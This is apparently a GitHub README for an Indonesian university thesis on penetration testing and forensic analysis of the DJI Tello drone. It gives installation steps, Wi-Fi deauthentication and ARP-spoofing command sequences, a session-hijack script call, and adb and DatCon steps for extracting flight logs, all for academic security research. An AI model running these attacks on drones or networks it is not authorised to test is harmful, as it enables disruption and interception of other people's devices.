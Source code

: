 # 🏁 Tugas Akhir (TA) - Final Project

**Nama Mahasiswa**: Akbar Putra Asenti Priyanto 
**NRP**: 5025211004 
**Judul TA**: Penetration Test dan Analisis Forensik pada Drone Komersial  
**Dosen Pembimbing**: Hudan Studiawan, S.Kom., M.Kom.,Ph.D.  
**Dosen Ko-pembimbing**: Baskoro Adi Pratomo, S.Kom., M.Kom.

---

## 📺 Demo Aplikasi  
Embed video demo di bawah ini (ganti `VIDEO_ID` dengan ID video YouTube Anda):  

[![Demo Aplikasi](https://i.ytimg.com/vi/17bLWl3gKGE/maxresdefault.jpg)](https://www.youtube.com/watch?v=17bLWl3gKGE)  
*Klik gambar di atas untuk menonton demo*
---

*Konten selanjutnya hanya merupakan contoh awalan yang baik. Anda dapat berimprovisasi bila diperlukan.*

## 🛠 Panduan Instalasi & Menjalankan Software  

### Prasyarat  
- Daftar dependensi:
  - Python + pip
  - Wireshark
  - OS Kali Linux (Bisa dijalankan melalui Virtual Machine)
  - Oracle VM VirtualBox (Jika menjalankan serangan melalui VM)
  - DatCon (https://datfile.net/)
- Dependensi Tools Penyerangan:
  - aircrack-ng (Otomatis terinstal pada Kali Linux)
  - arpspoof / dsniff (Otomatis Terinstal pada Kali Linux)
  - djitellopy (https://github.com/damiafuentes/DJITelloPy)
- Dependensi Akuisisi Android:
  - adb (https://developer.android.com/tools/adb)

### Langkah-langkah  
1. **Clone Repository**  
   ```bash
   git clone https://github.com/Informatics-ITS/TA.git
   ```
2. **Instalasi Dependensi**
   ```bash
   cd [folder-proyek]
   pip install -r requirements.txt  # Contoh untuk Python
   npm install  # Contoh untuk Node.js
   ```
3. **Memperoleh IP dan MAC drone dan Kontroler**:

4. **Jalankan Serangan**
   
   - **Skenario Deauthentication Attack**:

   ```sudo airmon-ng start <interface>```

   ```sudo airodump-ng <interface_mon>```
   ```sudo iwconfig <interface_mon> channel <channel>
   sudo aireplay-ng --deauth <jumlah paket> -a <MAC Drone> -c <MAC Client> <interface_mon>```

   - **Skenario ARP Spoofing**:
   Sebelum menjalankan serangan, pastikan mesin penyerang terhubung pada jaringan drone DJI Tello.
   ```sysctl-w net.ipv4.ip_forward=1
   sudo arpspoof -i wlan0 -t <ip client> <ip drone>
   sudo arpspoof -i wlan0 -t <ip drone> <ip client>```

   - **Skenario Session Hijacking**:
   Sebelum menjalankan serangan, pastikan mesin penyerang terhubung pada jaringan drone DJI Tello.
   ```cd hijack
   python tello_control.py```

   - **Capture Jaringan dengan Wireshark**:
   ```sudo wireshark```
   Lakukan capture jaringan pada interface yang digunakan dalam penyerangan.

5. **Akuisisi Kontroler Android**
   - Pertama-tama, download adb (android debug bridge) pada tautan https://developer.android.com/tools/adb:
   - Hubungkan perangkat android menggunakan USB pada mesin.
   - Jalankan command berikut pada direktori download adb: 
   ```adb start-server
   adb devices -l
   adb shell ls
   adb pull /storage/emulated/0/```
   - Pada android, log penerbangan DJI Tello ditemukan pada direktori `/0/Android/data/com.ryzerobotics.tello/files/droneLog/`, sedangkan video penerbangan pada direktori `/0/Movies/TelloVideo/`

6. **Proses Log dengan DatCon**
   - Download software DatCon pada ```https://datfile.net/```
   - Saat dibuka, DatCon akan menampilkan GUI. Isi direktori .DAT yang sesuai dan direktori output yang sesuai pada halaman utama DatCon.
   - Pencet tombol "GO!" pada bagian bawah GUI
   - DatCon akan menghasilkan hasil .csv dari .DAT yang dimasukkan.
---

## 📚 Dokumentasi Tambahan

- [![Dokumentasi API]](docs/api.md)
- [![Diagram Arsitektur]](docs/architecture.png)
- [![Struktur Basis Data]](docs/database_schema.sql)

---

## ✅ Validasi

Pastikan proyek memenuhi kriteria berikut sebelum submit:
- Source code dapat di-build/run tanpa error
- Video demo jelas menampilkan fitur utama
- README lengkap dan terupdate
- Tidak ada data sensitif (password, API key) yang ter-expose

---

## ⁉️ Pertanyaan?

Hubungi:
- Penulis: [akbar.putra02.ap@gmail.com]
- Pembimbing Utama: [studiawan@gmail.com]
